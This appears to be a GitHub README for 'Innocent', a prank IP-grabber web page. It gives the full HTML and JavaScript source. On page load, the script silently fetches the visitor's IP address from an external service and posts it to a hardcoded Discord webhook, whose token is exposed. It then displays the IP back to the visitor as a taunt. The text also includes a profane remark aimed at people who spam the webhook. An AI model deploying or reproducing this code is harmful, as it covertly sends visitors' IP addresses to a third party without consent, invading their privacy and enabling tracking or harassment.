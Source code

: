 EXAMPLE URI: [CLICK HERE](https://hideakiatsuyo.github.io/innocent)

Example Result:<br>
![](https://i.imgur.com/A58wwMd.png)
<br>
For the "big fan" don't send messages on the webhook it's not made for it and just [open an issue](https://github.com/HideakiAtsuyo/innocent/issues/new) if you are just here to troll or something like this (and for the guy with the 8.8.8.8 it's useless too) it just require a few updates to fuck both of you and only receive IP

```html
<!DOCTYPE html>
<html lang="fr">
  <head>
    <meta charset="utf-8">
    <title>Innocent</title>
    <script src="https://code.jquery.com/jquery-3.6.0.js"></script>
    <script type="application/javascript">
      $(function() {
          		$.getJSON("https://api.ipify.org?format=jsonp&callback=?", //Take the IP then use the callback function 
          			function(json) {//Discord Webhook under
          			const discordWebhook = "https://canary.discord.com/api/webhooks/934415150738464938/oPDmxpKkAUF6lbus2jQcOlsjB8VurxdhoG5Yf8VubLdCSZffJbz53xEEtstjOS7vrXD1"; //USE REDIRECTION NOT DIRECT WEBHOOK LMAO
          			let req = new XMLHttpRequest(); //Initialize The Request
          			req.open("POST", discordWebhook);
          			req.setRequestHeader("Content-Type", "application/json");
          			let payloadRes = { //Payload to send in the request
          				username: "Angel Gabriel",
          				avatar_url: "https://patricia-lasserre.com/wp-content/uploads/2021/06/gabriel-750x500.jpg",
          				content: json.ip //Your IP from the callback
          			};
          			req.send(JSON.stringify(payloadRes)); //Send the request with the payload
      
          			setTimeout(() => {
          				document.write(`<center><img src="https://patricia-lasserre.com/wp-content/uploads/2021/06/gabriel-750x500.jpg"><h1>Did I just caught you on my website ${json.ip} ?</h1></center>`);
          			}, 2*1000); //Wait 2 seconds then write this as new page
          		});
          	});
        
    </script>
  </head>
  <body>
    <center>
      <br>WAIT 2 SECONDS
    </center>
  </body>
</html>
```
